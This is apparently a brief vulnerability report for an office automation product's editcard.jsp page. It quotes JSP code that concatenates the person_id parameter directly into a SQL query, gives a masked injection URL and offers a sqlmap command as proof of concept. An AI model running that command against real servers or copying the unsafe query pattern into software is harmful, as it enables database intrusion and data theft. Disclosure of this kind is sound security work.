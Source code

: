 # KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql

![Uploading image.png…]()

